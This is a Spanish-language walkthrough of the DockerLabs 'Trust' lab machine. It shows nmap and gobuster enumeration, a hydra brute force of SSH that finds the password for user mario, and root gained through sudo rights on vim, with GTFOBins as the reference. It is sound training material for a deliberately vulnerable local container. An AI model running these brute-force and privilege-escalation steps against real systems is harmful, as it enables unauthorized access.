 #Writeups #VeryEasy #DockerLabs

Vamos con la primera maquina de DockerLabs, una web reciente donde podemos ejecutar las maquinas en local con docker y que sea todo mucho mas rápido y optimizado.

![dockerLabs.png](assets/dockerLabs.png)

Para poder ejecutar las maquinas necesitaremos instalar docker:

```bash
sudo apt install docker.io
```

 y para ejecutar las maquinas primero extraeremos el archivo zip que nos descargaremos de la web, a continuación entraremos en el directorio extraído y desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

hacemos un scan general con nmap:

```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.46 seconds
```

vemos que solo hay dos servicios, hacemos un escaneo mas profundo en los puertos encontrados:

```bash
❯ nmap -p22,80 -Pn -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:11 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.17 seconds
```

obtenemos que es una web con Apache, vamos a echar un vistazo:

![apacheTrust.png](assets/apacheTrust.png)

hacemos una enumeración web con gobuster y obtenemos los siguientes resultados:

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,xml,json
```


![gobusterTrust.png](assets/gobusterTrust.png)

vamos a ver que hay en el directorio secret.php:

![webMarioTrust.png](assets/webMarioTrust.png)

la web solo muestra este mensaje que de primeras me da a pensar que hay un ussuario llamado mario, en el codigo fuente tampoco encontramos nada, asi que apuntaremos al servicio ssh con un atauqe de fuerza bruta probando el usuario mario con el rockyou.txt:

```bash
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
```

y nos da un caso exitoso:

![hydraTrust.png](assets/hydraTrust.png)

el usuario **mario** si existe y la contraseña es **chocolate**

vamos a conectarnos al ssh:

```bash
❯ ssh mario@172.17.0.2
mario@172.17.0.2s password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@2a9f78d555d6:~$ 
```
En DockerLabs no hay flags por lo que para concluir la maquina tenemos que obtener root, asi que vamos a enumerar los privilegios que tenemos como mario:

```bash
mario@2a9f78d555d6:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 2a9f78d555d6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 2a9f78d555d6:
    (ALL) /usr/bin/vim
mario@2a9f78d555d6:~$ 
```

tenemos permisos sudo para vim, consultamos en la pagina [GTFOBins](https://gtfobins.github.io/) 

![vimTrust.png](assets/vimTrust.png)

usamos la opción (a) y nos da root

![rootTrust.png](assets/rootTrust.png)

Con esto ya hemos comprometido la maquina.


